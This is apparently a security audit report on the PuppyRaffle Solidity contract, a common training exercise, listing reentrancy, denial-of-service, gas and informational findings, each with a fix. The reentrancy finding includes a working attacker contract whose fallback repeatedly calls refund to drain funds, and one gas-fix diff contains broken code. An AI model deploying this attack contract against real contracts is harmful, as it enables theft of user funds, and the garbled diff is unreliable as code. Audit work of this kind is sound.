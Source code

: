### [H-1] Reentrancy attack in `PuppyRaffle::refund` allows entrant to drain raffle balance.

**Description:** The `PuppyRaffle::refund` function does not follow CEI (Check, Effects, Interactions) and as a result, enables participants to drain contract balance.

In the `PuppyRaffle::refund` function, we first make an external call to the `msg.sender` address and only after making that external call do we update the `PuppyRaffle::players` array.

<details>

```javascript
   function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>      payable(msg.sender).sendValue(entranceFee);
@>      players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```

</details>

A player who has entered the raffle could have a `fallback`/`receive` function that calls the `PuppyRaffle::refund` function again and claim another refund. They could continue the cycle till the contract balance is drained.

**Impact:** All fees paid by raffle entrants could be stolen by the malicious participant.

**Proof of Concept:**

1. User enters the raffle.
2. Attacker sets up a contract with a `fallback` function that calls `PuppyRaffle::refund`
3. Attacker enters the raffle.
4. Attacker calls `PuppyRaffle::refund` from their attack contract, draining the contract balance.

**Proof of Code**
Place the following into `PuppyRaffleTest.t.sol`

<details>
<summary>Code</summary>

```javascript
 function test_reentrancyRefund() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        ReetrancyAttacker attackerContract = new ReetrancyAttacker(puppyRaffle);
        address attackUser = makeAddr("attackUser");
        vm.deal(attackUser, 1 ether);

        uint256 startingAttackContractBalance = address(attackerContract).balance;
        uint256 startingContractBalance = address(puppyRaffle).balance;

        // attack
        vm.prank(attackUser);
        attackerContract.attack{value: entranceFee}();

        console.log("starting attacker contract balance: ", startingAttackContractBalance);
        console.log("starting contrackt balance:", startingContractBalance);

        console.log("ending attacker contract balance", address(attackerContract).balance);
        console.log("ending contract balance", address(puppyRaffle).balance);
    }
```

And this contract as well:

```javascript
contract ReetrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
```

</details>

**Recommended Mitigation:** To prevent this, we should have the `PuppyRaffle:refund` function update the `players` array before making the external call. Additionally, we should move the event emission up as well.

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);

        payable(msg.sender).sendValue(entranceFee);

-       players[playerIndex] = address(0);
-       emit RaffleRefunded(playerAddress);
    }
```

### [M-#] Looping through players array to check to duplicates in `PuppyRaffel::enterRaffel` is a potential denial of service (DoS) attack, incrementing gas costs for future entrants.

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle::players` array is, the more checks a new player will have to make. This means the gas costs for players who enter right when the raffle stats will be dramatically lower than those who enter later. Every additional address in the `players` array, is an additional check the loop will have to make.

```javascript
// @audit Dos Attack
 for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
```

**Impact:** The gas cost for raffle entrants will greatly increase as more players enter the raffle. Discouraging later user from entering, and causing a rush at the start of a raffle to be one of the first entrants in the queue.

An attacker might make the `PuppyRaffle::entrants` array so big, that no one else enters, guaranteeing themselves the win.

**Proof of Concept:**

If we have 2 sets of 100 players enter, the gas cost will be as such:

- 1st 100 players: -6252048 gas
- 2nd 100 players: -18068138 gas

This is more than 3x more expensive for the second 100 players.

<details>
<summary>PoC</summary>

Place the following test into `PuppyRaffleTest.t.sol`.

```javascript
function test_denialOfService() public {
        vm.txGasPrice(1);

        uint256 playersNum = 100;
        address[] memory players = new address[](playersNum);
        for (uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasEnd = gasleft();
        uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
        console.log("Gas cost of the first 100 players", gasUsedFirst);

        // now for the 2nd 100 players
        address[] memory playersTwo = new address[](playersNum);
        for (uint256 i = 0; i < playersNum; i++) {
            playersTwo[i] = address(i + playersNum);
        }
        // see how much gas it cost
        uint256 gasStartSecond = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(playersTwo);
        uint256 gasEndSecond = gasleft();
        uint256 gasUsedSecond = (gasStartSecond - gasEndSecond) * tx.gasprice;
        console.log("Gas cost of the second 100 players: ", gasUsedSecond);

        assert(gasUsedFirst < gasUsedSecond);
    }
}

```

</details>

**Recommended Mitigation:** There are a few recommendations.

1. Consider allowing duplicates. Users can make new wallets address anyways, so duplicate check dosen't prevent the same person form entering multiple times, only the same wallet address.
2. Consider using a mapping to check for duplicates. This would allow constant time lookup of whether a user has already entered.

# Gas

## [G-1] Unchanged state variables should be declared constant or immutable.

Reading form storage is much more expensive than reading from a constant or immutable variables.

Instances:

- `PuppyRaffle::raffleDuration` should be `immutable`
- `PuppyRaffle::commonImageUri` should be `constant`
- `PuppyRaffle::rareImageUri` should be `constant`
- `PuppyRaffle::rareImageUri` should be `constant`

### [G-2] Storage variable in a loop should be cached

Everytime you call `players.lenght` you read from storage, as opposed to memory whice is more gas afficient.

```diff
+    uint256 playerLength = players.lenght;
-    for (uint256 i = 0; i < players.length - 1; i++) {
+    for (uint256 i = 0; i < playersLength - 1; i++) {
-           for (uint256 j = 1; + 1; j < players.length; j++) {
+           for (uint256 j = 1; + 1; j < playersLength; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }

```

### [I-1] Solidity pragma should be specific, not wide

Consider using a specific version of Solidity in your contracts instead of a wide version. FO for example, instead of `pragma solidity ^0.8.0` use `pragma solidity 0.8.8`

- Found in src/PuppyRaffle.sol: 32:23:35

### [I-2] Using an outdated version of Solidity is not recommended

solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend complex pragma statement.

**Recommendations**
Deploy with any of the following Solidity versions:

`0.8.18`
The recommendations take into account:

- Risk related to recent releases
- Risk of complex cod generation changes
- Risk of new language features
- Risk of known bugs
- Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

### [I-3] Rising checks for `address(0)` when assigning values to address state variable

Assigning values to address state variables without checking for `address(0)`

- Found in src/PuppyRaffle.sol: 8862:23:35
- Found in src/PuppyRaffle.sol: 3165:24:35
- Found in src/PuppyRaffle.sol:m 9809:26:35
